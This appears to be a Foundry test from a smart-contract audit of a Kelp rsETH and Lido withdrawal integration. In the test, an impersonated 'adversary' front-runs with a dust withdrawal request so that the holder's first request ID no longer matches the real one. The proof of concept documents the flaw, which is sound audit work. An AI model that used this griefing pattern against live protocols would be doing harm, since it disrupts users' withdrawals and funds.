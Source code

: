 ```solidity
        bool isClaimed;
    }

    function requestWithdrawals(uint256[] memory _amounts, address _owner) external returns (uint256[] memory requestIds);
    function getWithdrawalRequests(address _owner) external view returns (uint256[] memory requestsIds);
    function getWithdrawalStatus(uint256[] memory _requestIds) external view returns (WithdrawalRequestStatus[] memory statuses);
}

IERC20 constant rsETH = IERC20(0xA1290d69c65A6Fe4DF752f95823fae25cB99e5A7);
address constant stETH = 0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84;
ILidoWithdraw constant LidoWithdraw = ILidoWithdraw(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);


contract KelpTestLido is Test {
    address stETHWhale;
    uint tokensClaimed;

    function setUp() public {
        stETHWhale = 0x804a7934bD8Cd166D35D8Fb5A1eb1035C8ee05ce;
        tokensClaimed = 10e18;
        vm.startPrank(stETHWhale);
        IERC20(stETH).transfer(address(this), tokensClaimed);
        vm.stopPrank();
    }

    function test_Lido_requestId() public {
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 100;
        // Adversary calls requestWithdrawals for the holder with dust amount
        vm.startPrank(stETHWhale);
        IERC20(stETH).approve(address(LidoWithdraw), amounts[0]);
        LidoWithdraw.requestWithdrawals(amounts, address(this));
        vm.stopPrank();

        // The real withdrawal request is done after
        amounts[0] = tokensClaimed;
        IERC20(stETH).approve(address(LidoWithdraw), amounts[0]);
        uint256[] memory requestIds = LidoWithdraw.requestWithdrawals(amounts, address(this));
        uint real_requestId = requestIds[0];
        for(uint i=0; i< requestIds.length; i++) {
          emit log_named_uint("request id for real withdrawal request", requestIds[i]);
        }

        requestIds = LidoWithdraw.getWithdrawalRequests(address(this));
        for(uint i=0; i< requestIds.length; i++) {
          console.log("id for %s: %s",i, requestIds[i]);
        }

        ILidoWithdraw.WithdrawalRequestStatus[] memory withdrawsStatus = LidoWithdraw.getWithdrawalStatus(requestIds);
        for(uint i=0; i< requestIds.length; i++) {
          console.log("stETH amount for %s: %s",i, withdrawsStatus[i].amountOfStETH);
        }

        require(real_requestId != requestIds[0]);
    }
}
```
